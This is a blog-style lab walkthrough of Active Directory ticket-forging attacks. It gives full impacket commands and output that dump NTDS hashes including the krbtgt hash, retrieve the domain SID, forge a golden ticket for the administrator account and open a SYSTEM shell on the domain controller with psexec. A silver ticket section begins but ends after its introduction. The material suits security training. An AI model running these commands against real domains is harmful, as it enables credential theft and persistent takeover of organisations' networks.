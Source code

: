 ```yaml
---
layout:	post
title:  "AD Post-Attacks: Ticket-Forging Attacks"
date:   2024-07-26 11:11:11 +0200
categories: [Active Directory]
tags: [Active Directory]
---
```


## Pre-requisites

[AD: Fundamentals (venuschhantel.com.np)](https://venuschhantel.com.np/posts/AD_Fundamentals/)

[AD: Kerberos Authentication (venuschhantel.com.np)](https://venuschhantel.com.np/posts/AD_Kerberos_Authentication/)

<br>

## AD Environment

The AD environment for the ticket-forging attacks walkthrough is illustrated in the image below.

![AD Environment](/images/2024-07-25-AD_Post_Attacks_Ticket_Stealing_Attacks/1.png)

<br>

## Golden Ticket

### Introduction

If you follow my [Kerberos Authentication](https://venuschhantel.com.np/posts/AD_Kerberos_Authentication/) blog, then at Step 2, AS sends TGT to user. The TGT is encrypted with TGT Secret Key which is derived from krbtgt account password.

If attacker gain access to hash of krbtgt account, they can forge their own TGT ticket for persistence, which is golden ticket.

<br>

### Golden Ticket Walkthrough

For the walkthrough, it will be assumed that the ape user is already compromised by the hecker. Also, impacket tool will be used in this walkthrough. 

As mentioned above, to forge the golden ticket it require hash of krbtgt account. The hash of krbtgt was dumped as shown below. 

```bash
$ impacket-secretsdump ape:not@pe@123@192.168.190.130

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:064fbbe5db9939f23459813a58e24a78:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:ff99a9aaf9780bb473a16a218c7a3848:::
```

The hash of krbtgt account was found to be`ff99a9aaf9780bb473a16a218c7a3848`. 

Also, to forge the ticket using impacket, it require domain SID, which was retrieved as shown below.

```bash
$ impacket-lookupsid APEWITHINTERNET.local/ape:not@pe@123@192.168.190.130
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Brute forcing SIDs at 192.168.190.130
[*] StringBinding ncacn_np:192.168.190.130[\pipe\lsarpc]
[*] Domain SID is: S-1-5-21-1291692606-1804568322-956044965
```

The domain SID was found to be `S-1-5-21-1291692606-1804568322-956044965`.

Now we have the domain SID and krbtgt account hash, golden ticket was forged for administrator account. 

```bash
$ impacket-ticketer -nthash ff99a9aaf9780bb473a16a218c7a3848 -domain-sid S-1-5-21-1291692606-1804568322-956044965 -domain APEWITHINTERNET.local administrator
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Creating basic skeleton ticket and PAC Infos
[*] Customizing ticket for APEWITHINTERNET.local/administrator
[*]     PAC_LOGON_INFO
[*]     PAC_CLIENT_INFO_TYPE
[*]     EncTicketPart
[*]     EncAsRepPart
[*] Signing/Encrypting final ticket
[*]     PAC_SERVER_CHECKSUM
[*]     PAC_PRIVSVR_CHECKSUM
[*]     EncTicketPart
[*]     EncASRepPart
[*] Saving ticket in administrator.ccache
```

The forged ticket is `administrator.ccache`, which was exported to current bash session.

```bash
$ export KRB5CCNAME=/home/kali/administrator.ccache
```

Using the ticket, the administrator account was accessed via using psexec.

```bash
$ impacket-psexec APEWITHINTERNET.local/administrator@DC.APEWITHINTERNET.local -k -no-pass
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Requesting shares on DC.APEWITHINTERNET.local.....
[*] Found writable share ADMIN$
[*] Uploading file DOwZprhb.exe
[*] Opening SVCManager on DC.APEWITHINTERNET.local.....
[*] Creating service Uaqk on DC.APEWITHINTERNET.local.....
[*] Starting service Uaqk.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.20348.587]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```

<br>

## Silver Ticket

### Introduction

If you follow my [Kerberos Authentication](https://venuschhantel.com.np/posts/AD_Kerberos_Authentication/) blog, then at Step 4, after validating TGT and User Authenticator message, TGS sends Service Ticket to user. The Service Ticket is encrypted with Service Secret which is derived from service account password associated with a SPN. 

If attacker gain access to hash of service account associated with a SPN, they can forge their own Service Ticket ticket for persistence, which is silver ticket.
